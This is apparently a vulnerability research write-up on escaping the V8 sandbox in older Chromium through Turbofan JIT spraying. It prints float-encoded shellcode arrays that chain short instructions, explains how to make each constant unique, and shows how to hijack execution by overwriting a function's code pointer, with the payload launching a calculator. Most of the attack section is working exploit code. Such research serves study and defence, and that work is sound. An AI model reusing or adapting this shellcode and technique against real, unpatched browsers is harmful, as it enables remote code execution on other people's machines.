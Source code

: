 # Escaping V8 Sandbox via Turbofan JIT Spraying: Part 1 (Chromium < 100.0.4896.60)

In this post, I will explain how to escape V8 sandbox via Turbofan JIT Spraying to get RCE, while we have limited exploitation primitives like `addrof` and sandboxed AAR/AAW primitives.

## Setup

- Ubuntu 20.04.6 LTS (WSL)
- [9d0222424e6adf89663949d9e60e5ffe77d1cc83](https://chromium.googlesource.com/v8/v8/+/9d0222424e6adf89663949d9e60e5ffe77d1cc83) (Jan 24th, 2022)

Save [`sandbox.diff`](./sandbox.diff) and [`setup.zsh`](./setup.zsh) in your working directory and run `setup.zsh`.

`sandbox.diff` is the same patch with [[sandbox\] Add new Memory Corruption API](https://chromium.googlesource.com/v8/v8/+/4a12cb1022ba335ce087dcfe31b261355524b3bf) (May 20th, 2022). Applying this patch, we can implement limited exploitation primitives using memory corruption API.

## Exploitation

### Implement exploitation primitives

We can implement sandboxed [`addrof`](./pwn.js#L9) primitive which returns address of arbitrary JavaScript object in V8 sandbox, using `Sandbox.getAddressOf`. Also, we can implement sandboxed [AAR](./pwn.js#L14)/[AAW](./pwn.js#L20) primitives which read and write value at arbitrary address in V8 sandbox, using `Sandbox.MemoryView`.

### JIT (Just-In-Time) spraying

```js
// flags: --allow-natives-syntax --shell

function jit() { return [1.1, 2.2, 3.3]; }

for (let i = 0; i < 10000; i++) { jit(); jit(); jit(); jit(); jit(); jit(); } // compile via turbofan

% DebugPrint(jit);
```

![](img/1.png)

![](img/2.png)

![](img/3.png)

`jit()` is a function which returns an array consisted of float numbers. After `jit()` is compiled via Turbofan, the numbers in returned array are inserted to the optimized code as raw numbers. It means that we can insert arbitrary 8-byte numbers to executable code region. If we can move `rip` to the address of this number, it will act like an 8-byte shellcode.

### Construct shellcode chain

With just 8-byte shellcode, we won't be able to do what we want to do. Instead, we can chain several short shellcodes using `jmp` instruction.

[`shellcode.py`](./shellcode.py)

![](img/4.png)

```js
// flags: --allow-natives-syntax --shell

function jit() {
    return [
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112871410787e-246, // 0xceb9050636cb866
        1.9711314215434657e-246, // 0xceb906163782fb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9616425752617766e-246, // 0xceb6e69622f0548
        1.9711832695973408e-246, // 0xceb9090e7894850
        1.971182900582351e-246, // 0xceb909090f63148
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112653196158e-246, // 0xceb9050303ab866
        1.9710920957760286e-246, // 0xceb903d59414cb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9532382542574046e-246, // 0xceb505349440548
        1.971183239760578e-246, // 0xceb9090e0894850
        1.9711128050518315e-246, // 0xceb905053db3148
        1.971182900255075e-246, // 0xceb909090e28948
        1.9710902863710406e-246, // 0xceb903bb0c03148
        -6.828527034370483e-229 // 0x909090909090050f
    ];
}

for (let i = 0; i < 10000; i++) { jit(); jit(); jit(); jit(); jit(); jit(); } // compile via turbofan

% DebugPrint(jit);
```

![](img/5.png)

If there are same numbers in the array which `jit()` returns, the optimized code remembers that number in register and reuse it later. If so, chain is broken and shellcode doesn't work. Therefore, we should slightly change the order of instructions or move the position of `nop` instructions to make sure that all numbers are different, like following:

```js
function jit() {
    return [
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112871410787e-246, // 0xceb9050636cb866
        1.9711314215434657e-246, // 0xceb906163782fb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9616425752617766e-246, // 0xceb6e69622f0548
        1.9711832695973408e-246, // 0xceb9090e7894850
        1.971182900582351e-246, // 0xceb909090f63148
        1.9711831018987653e-246, // 0xceb9090c0314890 (edited)
        1.971112653196158e-246, // 0xceb9050303ab866
        1.9710920957760286e-246, // 0xceb903d59414cb8
        1.9710610293119303e-246, // 0xceb9020e0c14890 (edited)
        1.9532382542574046e-246, // 0xceb505349440548
        1.971183239760578e-246, // 0xceb9090e0894850
        1.9711128050518315e-246, // 0xceb905053db3148
        1.971182900255075e-246, // 0xceb909090e28948
        1.9710902863710406e-246, // 0xceb903bb0c03148
        -6.828527034370483e-229 // 0x909090909090050f
    ];
}
```

### Hijack execution flow

When a Turbofan-compiled function is called, we can see following execution flow:

![](img/6.png)

![](img/7.png)

It first stores 4-byte value stored in `rdi + 0x17` in `rcx`, which is address of `code` of the function.

![](img/8.png)

![](img/9.png)

After that, it adds `0x3f` to `rcx` and jump to that address, in which compiled code of the function is stored.

`Function` object is inside of V8 sandbox, so we can overwrite the address of `code` stored in `Function` object using sandboxed AAW primitive, then control `rip`. Overwriting this with address of shellcode, we can execute it by simply calling the function.

You have to install `/bin/xcalc` by running `sudo apt install -y x11-apps` before executing [`pwn.js`](./pwn.js) if you are using WSL.

![](img/10.png)

## Patch

> [[ext-code-space] Enable external code space on x64 and desktop arm64](https://chromium.googlesource.com/v8/v8/+/7fc4868e477cc7cb7ef8c304fff214ea83498e7a) (Jan 24th, 2022)